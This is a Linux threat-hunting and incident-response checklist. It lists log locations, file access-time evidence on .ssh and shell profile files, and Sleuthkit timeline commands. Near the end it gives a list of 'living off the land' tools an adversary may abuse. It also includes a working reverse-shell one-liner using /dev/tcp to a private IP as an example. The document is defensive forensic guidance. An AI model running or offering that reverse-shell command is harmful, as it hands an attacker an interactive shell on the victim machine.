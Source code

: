   *	Suggest that the customer deploys bash history time stamps.
* Check timestamps within home directories
  *	Access time updates for .bash* or .profile can show login 
  *	Access time on .ssh/known_hosts shows ssh client outbound attempt
  *	Access time on .ssh/authorized_keys shows ssh inbound attempt as this HOMEDIR user
* Examine sudo logs around the time of the event (check syslog config for path)
  * Typically found within /var/log/secure* or /var/log/auth*
  * sudo rules are typically in /etc/sudoers and /etc/sudoers.d/*
  * sudo can run commands as root or as other users
* Examine sshd sessions around time of event  
  * Current logs: /var/log/secure  or /var/log/auth
  * Historical logs: /var/log/secure-YYYYMMDD 
* Check application logs
  * Typically do not log through syslog if the software was not installed by the package manager
  * Can exist anywhere on the system
  * LLR collections *.log off disk into otheroslogs.tar.gz but would skip *.log.gz
* Examine audit logs
  * /var/log/audit.log if installed and running
  * Contents are dependent on administrator’s custom configuration
  * ausearch is powerful for searching audit.log
  * aureport generates a report on audit.log
* If the image or access to the filesystem is available, use the Sleuthkit to make a timeline
  * fls –rd / > filedump.txt
  * mactime –b filedump.txt > filedump_mac.txt
* Look for signs of an adversary "Living off the land"
  * arp nmap ping who whoami traceroute nslookup dig telnet netstat lsof host ss route macchange ip tcpkill id getent wget curl shred touch openssl chattr gcc history iptables xwd
  * L.O.L. exampe: /bin/bash -c '/bin/sh 0</dev/tcp/192.168.56.103/12345 1>&0 2>&0' 2>&1
  
Sources:  
* Sqrrl Huntpedia PDF  
* Endgame Guide to Threat Hunting  
* JPCert Tool Analysis Report  
* SANS 508  
* SANS Finding Evil in the Whitelist  
